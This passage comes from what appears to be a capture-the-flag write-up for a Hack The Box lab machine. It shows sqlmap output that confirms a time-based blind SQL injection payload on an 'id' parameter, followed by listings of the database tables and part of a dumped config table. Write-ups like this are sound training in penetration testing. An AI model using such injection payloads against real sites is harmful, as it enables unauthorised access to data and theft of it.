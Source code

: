 ```
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=465' AND SLEEP(5)-- rGmr
---
[00:24:45] [INFO] testing MySQL
[00:24:45] [INFO] confirming MySQL
[00:24:45] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[00:24:45] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.nestedflanders.htb'

[*] ending @ 00:24:45 /2019-04-24/
```

Nice. `sqlmap` found two techniques of SQL injection! Long story short, it's time-wasting to dump the entire current database, `neddy` by the way. We've to choose our battles wisely. Let's see what are the available tables.

```
Database: neddy
[11 tables]
+--------------+
| config       |
| customers    |
| employees    |
| filepath     |
| idname       |
| offices      |
| orderdetails |
| orders       |
| payments     |
| productlines |
| products     |
+--------------+
```

I've chosen tables `config`, `filepath`, and `idname`. Here they are.

_`db: neddy, table: config`_

```
Database: neddy                                                                                                                                                                                                                               
Table: config
[52 entries]
+-----+-------------------------+--------------------------------------------------------------------------+
| id  | option_name             | option_value                                                             |
+-----+-------------------------+--------------------------------------------------------------------------+
| 54  | offline                 | 0                                                                        |
| 55  | offline_message         | Site offline, please come back later                                     |
| 56  | display_offline_message | 0                                                                        |
| 57  | offline_image           | <blank>                                                                  |
| 58  | sitename                | NestedFlanders                                                           |
| 59  | editor                  | tinymce                                                                  |
```

[1]: https://www.hackthebox.eu/home/machines/profile/184
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/
